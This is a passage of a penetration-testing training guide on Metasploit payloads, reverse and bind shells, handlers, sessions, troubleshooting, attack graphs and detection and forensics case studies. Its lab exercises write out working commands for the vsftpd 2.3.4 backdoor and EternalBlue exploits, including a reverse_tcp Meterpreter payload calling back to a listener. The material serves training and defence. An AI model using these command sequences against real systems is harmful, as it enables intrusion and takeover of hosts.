

#### 8.1.4 Database Services (MySQL, PostgreSQL, MSSQL, Oracle)
- **Primary Weaknesses:** Default administrative accounts (`sa`, `root`), unencrypted remote management interfaces, excessive database privileges, and database user-defined function (UDF) exploits.
- **Security Standard:** Database ports (3306, 1433, 5432, 1521) should never be exposed directly to public or untrusted networks without VPN or jump-box protections.

### 8.2 Comprehensive Service Comparison Matrix

| Service | Typical Port | Protocol Nature | Main Security Vulnerabilities | Primary Defensive Control |
|---|---|---|---|---|
| **FTP** | 21 | Plaintext Control | Anonymous access, cleartext credentials, buffer overflows | Enforce SFTP/FTPS, disable anonymous access |
| **SSH** | 22 | Encrypted Tunnel | Brute-force attacks, credential reuse, exposed private keys | Key-based authentication, MFA, fail2ban |
| **HTTP** | 80 | Plaintext Web | Web application vulnerabilities, SQLi, web shells | Web Application Firewall (WAF), secure code reviews |
| **HTTPS** | 443 | Encrypted Web | Application flaws, API logic vulnerabilities, unvalidated input | WAF, robust authentication, patch management |
| **SMB** | 445 | Internal Binary | Unauthenticated RCE, pass-the-hash, relay attacks | Block SMB at network boundary, enforce SMB signing |
| **RDP** | 3389 | Binary Graphical | Brute-forcing, BlueKeep, unauthenticated access | Enforce NLA, restrict access via VPN/jump box |
| **Databases**| Various | Structured Data | Default credentials, SQL injection, privilege abuse | Restrict access to localhost/private subnets, use least privilege |

## 9. Payloads and Handlers

Understanding payload mechanics and handler configurations is central to managing Metasploit sessions.

### 9.1 Payload Design and Classification

Payloads are classified based on how they deliver shellcode and manage network connections:



#### 9.1.1 Staged vs. Inline Payloads
- **Staged Payloads (indicated by a slash: `reverse/tcp`):**
  - Uses an initial, compact *stager* payload that fits into constrained exploit buffers.
  - The stager allocates memory, downloads the full payload stage from the listener, and executes it in RAM.
- **Inline Payloads (indicated by an underscore: `reverse_tcp`):**
  - Packages the entire exploit shellcode and execution logic into a single binary payload.
  - Generates a self-contained payload that does not require secondary network downloads.

#### 9.1.2 Reverse vs. Bind Shells
- **Reverse Connection (`reverse_tcp`, `reverse_https`):** The target system initiates an outbound network connection back to the tester's listener. Bypasses most inbound firewall rules.
- **Bind Connection (`bind_tcp`):** The payload opens a listening port directly on the target machine, waiting for the tester to connect. Often blocked by perimeter firewalls.

### 9.2 Handler Configuration Architecture

When using reverse payloads, the tester must configure a matching Metasploit handler:
```bash
# Selecting the generic multi-handler
msf6 > use exploit/multi/handler

# Setting the matching payload type
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Configuring listener parameters
msf6 exploit(multi/handler) > set LHOST 192.168.1.50
msf6 exploit(multi/handler) > set LPORT 4444

# Launching the listener as a persistent background job
msf6 exploit(multi/handler) > exploit -j
```

- **`LHOST`:** The local IP address of the tester's machine.
- **`LPORT`:** The local port where the handler listens for incoming connections.
- **`-j` Flag:** Runs the listener as a background job, allowing the console to manage other tasks.

## 10. Sessions and Post-Exploitation

A session represents an active, interactive channel established between a target system and the Metasploit Framework.

### 10.1 Session Management Workflows



Common session management commands:
```bash
# List all active sessions
msf6 > sessions -l

# Interact with session 1
msf6 > sessions -i 1

# Send the active session to the background
meterpreter > background

# Terminate session 1
msf6 > sessions -k 1

# Upgrade a basic Unix command shell to a full Meterpreter session
msf6 > sessions -u 1
```

### 10.2 Post-Exploitation Verification

Once an interactive session is established, the tester verifies the operational context:
- **`getuid`:** Confirms current user context and domain identity.
- **`sysinfo`:** Enumerates operating system build, kernel version, hostname, and CPU architecture.
- **`getprivs`:** Lists granted Windows security privileges (`SeDebugPrivilege`, `SeImpersonatePrivilege`).
- **`ps`:** Displays running processes to identify security software and candidates for process migration.

## 11. Failed Exploitation and Troubleshooting

Exploitation attempts frequently fail due to environmental differences, defensive controls, or misconfigurations.

### 11.1 Primary Causes of Exploitation Failure



### 11.2 The 7-Step Troubleshooting Methodology

When an exploit fails to establish a session, follow a systematic diagnostic process:



:::warning[GOLDEN TROUBLESHOOTING RULE]
**Do not randomly change exploit options.** Systematically identify which assumption failed—target reachability, service status, version matching, or payload compatibility.
:::

## 12. Attack Path and Attack Graph

Visualizing attack paths helps security teams understand how vulnerabilities chain together to lead to host compromise.

### 12.1 Concept of an Attack Path
An **attack path** represents the sequential progression of steps an attacker takes from their starting point to their ultimate objective:



### 12.2 Multi-Service Attack Graph Architecture
An **attack graph** maps all possible entry points and compromise paths across an enterprise host:



## 13. Detection and DFIR

Securing enterprise networks against server-side exploitation requires monitoring across multiple telemetry layers.

### 13.1 Exploitation Telemetry Sequence

A successful server exploit produces an observable sequence of events:



### 13.2 SOC Telemetry Correlation Principle

$$\text{Confidence Level} \propto \sum (\text{Network Anomaly} + \text{Service Crash} + \text{Abnormal Process Parentage} + \text{Egress Socket})$$

- An isolated event (such as a single failed connection attempt) may simply represent internet noise or benign administrative activity.
- When an inbound connection is immediately followed by a service crash, an abnormal child process spawn, and an outbound network connection, these correlated events provide high confidence of an active compromise.

## 14. Comprehensive Case Studies

### 14.1 Case Study 1: Linux Web Server Compromise

#### 14.1.1 Incident Scenario
An enterprise Linux server triggers five sequential alerts on a security monitoring dashboard:
1. **Unusual HTTP Request:** A web request with anomalous payloads targeting an exposed endpoint.
2. **Unexpected Process Creation:** The web server daemon (`apache2`) spawns a `/bin/sh` shell process.
3. **Outbound Connection:** An outbound TCP connection is established from the server to an external, untrusted IP on port 4444.
4. **New User Activity:** Shell commands (`id`, `whoami`, `cat /etc/passwd`) execute under the `www-data` account.
5. **Privilege Change:** Sudo privileges are exercised or a local SUID exploit executes, transitioning the session to `root` (UID 0).

#### 14.1.2 Investigative Analysis & Solutions

##### Question 1: What was the likely initial access vector?
- The initial access vector was a web application vulnerability (such as remote command injection, insecure file upload, or deserialization) exposed over HTTP (TCP 80).

##### Question 2: Which event occurred first chronologically?
- Event 1 (*Unusual HTTP Request*) occurred first, delivering the exploit payload to the target web server daemon.

##### Question 3: Which event indicates successful initial exploitation?
- Event 2 (*Unexpected Process Creation*—`apache2` spawning `/bin/sh`) confirms that the exploit successfully executed code, transitioning from application input parsing to operating system command execution.

##### Question 4: What digital evidence should be collected?
- **Web Access & Error Logs:** Examine `/var/log/apache2/access.log` to recover the attacker's IP, user-agent string, and exploit payload parameters.
- **Process Accounting & Audit Logs:** Review Linux Auditd (`/var/log/audit/audit.log`) for process creation events (`execve`) linking `apache2` to `/bin/sh`.
- **Network Capture & Flow Records:** Extract NetFlow/PCAP files capturing outbound connections on port 4444.
- **Volatile Memory:** Capture a live RAM dump using LiME to extract the active shellcode and in-memory payload.

##### Question 5: How would an investigator construct the attack timeline?
- Align all logged events chronologically:
$$\text{HTTP Exploit Request (14:02:10)} \rightarrow \text{Process Spawn (14:02:11)} \rightarrow \text{Outbound Socket (14:02:12)} \rightarrow \text{Discovery Commands (14:02:25)} \rightarrow \text{Root Escalation (14:04:15)}$$

### 14.2 Case Study 2: Windows Server SMB Exploitation

#### 14.2.1 Incident Scenario
An enterprise Windows Server triggers five sequential security alerts:
1. **Unusual SMB Connection:** Multiple rapid connections on TCP port 445 from an unknown internal workstation.
2. **Suspicious Process Creation:** The Windows system process spawns `cmd.exe` or `powershell.exe`.
3. **New Outbound Connection:** An outbound TCP socket opens from the server to an internal IP address on port 4444.
4. **Privilege Change:** Security event logs record privileged token impersonation.
5. **Administrative Activity:** New user accounts are added to the local `Administrators` group.

#### 14.2.2 Investigative Analysis & Solutions

##### Question 1: Identify the attack path.
- The attacker leveraged internal network access to target the SMB service (port 445), delivered an exploit (such as EternalBlue or an SMB relay attack), achieved system code execution, established an outbound Meterpreter session, and conducted post-exploitation administrative modifications.

##### Question 2: Which event indicates initial access?
- Event 1 (*Unusual SMB Connection*) represents the initial network attack vector, delivering the exploit payload over port 445.

##### Question 3: Which event indicates post-exploitation activity?
- Events 4 (*Privilege Change*) and 5 (*Administrative Activity*—adding local administrative accounts) indicate post-exploitation actions taken after gaining initial access.

##### Question 4: What endpoint telemetry is required?
- **Sysmon Event Logs:** Event ID 1 (Process Creation), Event ID 8 (CreateRemoteThread), Event ID 10 (ProcessAccess).
- **Windows Security Event Logs:** Event ID 4624 (Successful Logon), Event ID 4720 (User Account Created), Event ID 4728 (User Added to Privileged Group).

##### Question 5: What network telemetry is required?
- Egress firewall connection logs, internal network traffic captures, and IDS/IPS alerts (e.g., Snort/Suricata rules detecting SMB exploit signatures).

## 15. Practical Lab Exercises & Exploitation Workflows

Practical exercises reinforce exploitation concepts through hands-on practice in isolated laboratory environments.

### 15.1 Exercise 1: Linux Server Exploitation Workflow

Follow this step-by-step workflow when targeting an intentionally vulnerable Linux test machine:
1. **Network Discovery:** Run an Nmap service scan to discover open ports:
```bash
nmap -sV -p- -T4 10.10.10.50
```
2. **Version Analysis:** Identify running services (e.g., `vsftpd 2.3.4` on port 21 or `Apache 2.4.41` on port 80).
3. **Module Selection:** Search and select the appropriate exploit module:
```bash
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```
4. **Configuration:** Configure target options:
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.50
```
5. **Exploit & Verify:** Launch the exploit and verify the active session:
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
id
whoami
```

### 15.2 Exercise 2: Windows Server Exploitation Workflow

Target an intentionally vulnerable Windows test system:
1. **Port Enumeration:** Confirm open Windows management ports:
```bash
nmap -sV -p 139,445,3389 10.10.10.60
```
2. **Exploit Selection:** Select an appropriate SMB or RPC exploit:
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
3. **Configuration:** Set target IP and select an architecture-compatible payload:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.60
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.10.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
```
4. **Execution & Privilege Verification:**
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
meterpreter > getuid
meterpreter > sysinfo
```

### 15.3 Exercise 3: Service-to-Exploitation Attack Graph Deliverable

Security analysts synthesize lab findings by mapping enumerated services to vulnerabilities, exploits, impacts, and detection methods:

```mermaid
flowchart TD
  subgraph Discovery ["Service Discovery"]
    P21["Port 21: vsftpd 2.3.4"]
    P80["Port 80: HTTP Apache PHP"]
    P445["Port 445: Windows SMB"]
    P3389["Port 3389: Windows RDP"]
  end

  subgraph Exploits ["Exploit Modules"]
    E_FTP["exploit/unix/ftp/vsftpd_234_backdoor"]
    E_HTTP["exploit/multi/http/php_cgi_arg_injection"]
    E_SMB["exploit/windows/smb/ms17_010_eternalblue"]
    E_RDP["auxiliary/scanner/rdp/rdp_scanner"]
  end

  subgraph Outcomes ["Impact & Security Context"]
    R1["Root Shell (UID 0)"]
    R2["Low-Privilege Shell (www-data)"]
    R3["NT AUTHORITY\\SYSTEM"]
    R4["Credential Brute-Force Risk"]
  end

  subgraph DetectionMethods ["Defensive Detection Telemetry"]
    D1["Port 6200 backdoor connection alerts"]
    D2["Web server /bin/sh child process creation (Auditd)"]
    D3["Sysmon Event ID 1 & 8 + anomalous port 445 traffic"]
    D4["Event ID 4625 failed authentication logon spikes"]
  end

  P21 --> E_FTP --> R1 --> D1
  P80 --> E_HTTP --> R2 --> D2
  P445 --> E_SMB --> R3 --> D3
  P3389 --> E_RDP --> R4 --> D4
```
